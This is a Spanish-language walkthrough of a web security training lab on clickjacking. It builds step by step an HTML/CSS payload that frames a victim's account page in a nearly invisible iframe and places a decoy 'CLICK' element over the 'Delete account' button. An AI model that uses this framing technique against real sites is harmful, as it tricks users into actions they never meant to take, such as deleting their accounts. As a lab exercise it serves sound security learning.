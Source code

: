 # Lab: Basic clickjacking with CSRF token protection

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/4ffa4b57-b5df-4487-b5ff-9dda4fa0cea9)

Nosotros sabemos que este laboratorio tiene una funcionalidad de autenticación y que tiene un botón `Delete account` el cual debemos utilizar para que el usuario víctima elimine su cuenta mediante `Clickjacking`.

Nos autenticamos con nuestras credenciales `wiener:peter` y en el dashboard del usuario nos encontramos con el botón `Delete account`:
![image](https://github.com/user-attachments/assets/509e80c1-90ae-4260-b2a0-ecfa62034389)

Entonces la idea es engañar a un usuario para que haga clic en un elemento visible que muestra la palabra `click`, mientras un botón real (`Delete account`) del sitio objetivo se encuentra oculto detrás, embebido en un iframe casi transparente y alineado perfectamente con ese texto.

Accedemos al exploit server del laboratorio, que simula un sitio web alojado por nosotros:
![image](https://github.com/user-attachments/assets/514dc04f-5e9d-4952-91dd-0f2c40cc10fd)

Si hacemos click en `View exploit` seremos capaces de ver el contenido de nuestro sitio web:
![image](https://github.com/user-attachments/assets/2de4b3bc-2917-4c59-821f-231b080acf8f)

Vamos a utilizar un `iframe`, que es un elemento HTML que permite cargar otra página web dentro del documento actual. Ya lo vimos en laboratorios anteriores: el `iframe` incrusta contenido remoto, como si fuera una ventana dentro del sitio atacante.

Vamos a ir haciendo pruebas para analizar cómo va cambiando el código y el resultado que arroja. 

Comenzamos insertando el siguiente código en nuestra página:
```html
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account?id=wiener"></iframe>
```
Esto genera un cuadro embebido que carga la página especificada en el atributo `src`. Podemos ver visualmente que el contenido del `iframe` corresponde al dashboard del usuario:
![image](https://github.com/user-attachments/assets/c9df01fc-50a8-44f4-8875-eb0d31100bde)

Ahora procedemos a darle estilo al `iframe`:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
</style>

<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account?id=wiener"></iframe>

```

Vemos que se agrandó el `iframe`, incluso si acercamos el mouse sobre un elemento vemos que cambia el ícono, lo que nos da la pauta de que tenemos interacción con los elementos, es decir, los botones siguen funcionando por más que sean casi transparentes.

Ahora vamos a agregar un botón:

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 100px;
    left: 100px;
    z-index: 1;
  }
</style>

<div>click</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account?id=wiener"></iframe>
```

Nosotros podemos ver el elemento `click`:
![image](https://github.com/user-attachments/assets/e742c0d5-1107-4742-b25d-7f712b948ce4)

La idea ahora es ir probando hasta encontrar la configuración de modo tal que el elemento `click` quede superpuesto al botón `Delete account`. Luego de varias pruebas encontramos que la configuración correcta es la siguiente:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 515px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>CLICK</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account?id=wiener"></iframe>
```

![image](https://github.com/user-attachments/assets/97c77e35-9026-4ac1-a168-f7ea83709db6)

Ahora procedemos a bajar la transparencia de modo que el `iframe` quede casi imperceptible:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 515px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>CLICK</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account?id=wiener"></iframe>
```
De modo tal que si la víctima visita esta página, verá lo siguiente:
![image](https://github.com/user-attachments/assets/edca2881-3f92-40ca-9583-0aceacf2d34b)

